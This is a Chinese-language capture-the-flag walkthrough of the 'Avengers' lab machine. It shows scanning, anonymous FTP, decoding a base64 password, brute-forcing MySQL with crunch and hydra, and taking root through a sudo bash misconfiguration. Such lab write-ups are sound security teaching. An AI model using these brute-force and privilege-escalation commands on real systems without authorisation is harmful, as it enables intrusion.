 # Avengers

2025.03.02 https://thehackerslabs.com/avengers/

[video](https://www.bilibili.com/video/BV1ub9tYKEZB/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
```

ftp 可匿名登陆，下载文件：

```
-rw-r--r--    1 0        0             459 Mar 24  2024 FLAG.txt
-rw-r--r--    1 0        0             417 Mar 24  2024 credential_mysql.txt.zip
```

FLAG.txt 中没什么有用信息。credential_mysql.txt.zip 有密码，使用 john 进行破解，没找到密码。

扫描 web 读取 robots.txt 文件：

```
User-agent: *
Disallow: /webs/
Disallow: /mysql/
```

访问 http://192.168.5.40/mysql/database.html 在源码中有提示：

```
<!-- You have found a password of a user that is hidden out there, keep looking... -->
<!-- password: V201V2JHTnVjR2haYmtveFpFZEZQUT09 -->
```

同时在这里发现了用户名 http://192.168.5.40/php/login.php:

```
$servername = "192.168.28.7";
$username = "h4lc3";
$password = "***********";
$dbname = "db_true";
```

发现用户名 h4lc3 使用上面发现的密码进行登陆 ssh 和 mysql 都不对，再看上面的数据库连接密码是 8 个星号，这里长度不对，使用 cyberchef 进行 base64 解码 3 次，得到了 11 位的字符串 fuerzabruta 再次爆破 ssh 和 mysql 也登陆不了。

访问这个 http://192.168.5.40/webs/secret.html 验证页面，输入刚才得到的密码 fuerzabruta ，得到了一个用户名 hulk 使用这个用户名登陆 ssh，登陆成功。

寻找 user flag：

```
hulk@TheHackersLabs-Avengers:~$ cat wait/decrypt.txt
I'm going to provide you with a decryption password for some file, guess which file could be the one that decrypts this...

Password: decryptavengers

hulk@TheHackersLabs-Avengers:~$ cat mysql/hint/zip/shit_how_they_did_know_this_password.txt

Congratulations, you found the password to decrypt the compressed FTP .zip file

Now you know what to do with this... I guess

password: (You thought I would give you the password so quickly, because if you look closely at the file you would see the password more clearly...)
```

提到之前发现的 credential_mysql.txt.zip 它的解压密码就是这个文件的文件名 shit_how_they_did_know_this_password 解压后的内容显示：

```
Listen, stif, I sent you the password of my MySQL user by email, but I think you didn't get it, I'll send it to you here:

User: hulk
Password: fuerzabrutaXXXX

Remember to change the "XXXX" to a secure number combination before sending.

HINT: it is in a range of 0-3000
```

需要对 mysql 的登陆密码进行爆破：

```
crunch 15 15 -t fuerzabruta%%%% > pass
hydra -t 32 -l hulk -P pass mysql://192.168.5.40
[3306][mysql] host: 192.168.5.40   login: hulk   password: fuerzabruta2024
```

登陆 mysql，进行枚举：

```
MySQL [db_flag]> use db_true;
MySQL [db_true]> show tables;
+-------------------+
| Tables_in_db_true |
+-------------------+
| nothing           |
+-------------------+

MySQL [db_true]> select * from nothing;
+----+--------------+-----------------------------------------------+
| id | nothing_user | nothing_password                              |
+----+--------------+-----------------------------------------------+
|  1 | nada         | JAHDdjwoaiJDWIAJDsDJWAjdwaiojKDAKAkdoaKDPOAA= |
+----+--------------+-----------------------------------------------+

MySQL [db_true]> use no_db;
MySQL [no_db]> show tables;
+-----------------+
| Tables_in_no_db |
+-----------------+
| passwords       |
| users           |
+-----------------+

MySQL [no_db]> select * from users;
+----+--------+---------------+
| id | user   | password      |
+----+--------+---------------+
|  1 | stif   | escudoamerica |
|  2 | hulk   | fuerza*****   |
|  3 | antman | ******        |
|  4 | thanos | NOPASSWD      |
+----+--------+---------------+

MySQL [no_db]> select * from passwords;
+----+--------------------------------------------------------------+----------------------------------------------------+
| id | password                                                     | description                                        |
+----+--------------------------------------------------------------+----------------------------------------------------+
|  1 | wr9UZSBjcmVlcyBxdWUgc2VyaWEgdGFuIGZhY2lsPyBKQUpBSkFKQUpKQUpB | Desencripta esa contraseña para poder ser root ;)  |
+----+--------------------------------------------------------------+----------------------------------------------------+
```

系统用户 stif 的登陆密码是 escudoamerica ，切换到该用户后，发下了 user flag，但是没权限读取，需要 root 权限。

sudo -l 显示：

```
(ALL : ALL) NOPASSWD: /usr/bin/bash
(ALL : ALL) NOPASSWD: /usr/bin/unzip
```

直接提权拿到 2 个 flag：

```
stif@TheHackersLabs-Avengers:~$ sudo /usr/bin/bash
root@TheHackersLabs-Avengers:/home/stif# ls
flag  game.py  pista  user.txt
root@TheHackersLabs-Avengers:/home/stif# cat user.txt
31c29fb1d045f2d17f44fa2921ef4c32  -
root@TheHackersLabs-Avengers:~# cat root.txt
658e8256a7b4cf93766dc6ef546a2825  -
```
